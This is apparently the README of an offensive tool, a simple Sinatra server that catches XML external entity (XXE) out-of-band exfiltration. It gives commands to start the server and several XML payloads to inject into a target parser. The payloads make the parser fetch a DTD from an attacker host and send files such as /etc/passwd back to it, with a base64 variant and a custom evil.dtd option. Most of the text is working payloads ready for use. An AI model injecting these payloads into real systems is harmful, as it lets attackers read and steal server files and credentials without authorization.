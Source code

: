 # Simple XXE Out of Band (OOB) server

A simple Sinatra app for the XXE Out of Band technique.

## Usage

Start on default port of 8080:

```
./simpleXXE
```

Start on specified port (may need sudo in some cases):

```
sudo ./simpleXXE 80
```

Inject something like the following:

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
  <!ENTITY % fetch SYSTEM "http://HOST:PORT/xml?f=FULLPATH">
  %fetch;
  %load;
  %run;
]>
```

Where `HOST` and `PORT` are the hostname/IP and port of your XXE OOB
server. `FULLPATH` needs to be set to the full absolute path of the
file to be read file (e.g. f=/etc/passwd).

e.g. `http://1.2.3.4:8080/xml?f=/etc/passwd`

The file specified by `FULLPATH` will be stored under `./files`.
Depending on the targeted parser it may not work with all files. To
encode with base64, use something like the following:

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
  <!ENTITY % fetch SYSTEM "http://HOST:PORT/xmlb?f=FULLPATH">
  %fetch;
  %load;
  %run;
]>
```

To instead use your own dtd file, create an `dtd/evil.dtd` file and
use something like the following:

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
  <!ENTITY % fetch SYSTEM "http://HOST:PORT/dtd?d=evil">
  ...
]>
```
